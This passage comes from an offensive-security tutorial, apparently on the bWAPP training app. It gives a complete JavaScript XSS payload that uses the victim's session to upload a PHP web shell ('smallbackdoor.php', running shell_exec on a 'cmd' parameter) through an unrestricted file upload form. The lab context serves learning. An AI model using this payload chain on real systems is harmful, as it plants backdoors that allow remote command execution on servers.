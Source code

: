 <h3>The first way</h3>
Let's go with the previously described way. First we select the "Unrestricted File Upload" in BWAPP. Then we upload a small php reverse shell and check the request in the proxy of our choosing.

![](/img/OffensiveXSS2/uploadFileRequest.PNG)

First we can see that we have a POST request with some headers, cookie, and "multipart/form-data" data. Now we create the XSS from payload to mimic the request.
<br>
```
var content_type = 'application/x-php';
file = ' <?php '
file += ' $output = shell_exec($_GET["cmd"]); '
file += ' echo "<pre>$output</pre>"; '
file += ' ?> '
var fileBlob = new Blob([file], {
    type: 'text/plain'
});

var formData = new FormData();
formData.append('file', fileBlob,'smallbackdoor.php');
formData.append('MAX_FILE_SIZE', 10);
formData.append('form','Upload');

var urlOfThePage = window.location.protocol + "//" + window.location.host
var url = urlOfThePage + '/bWAPP/unrestricted_file_upload.php';

xhr = new XMLHttpRequest();
xhr.open('POST', url);
xhr.withCredentials = "true";
xhr.send(formData);
```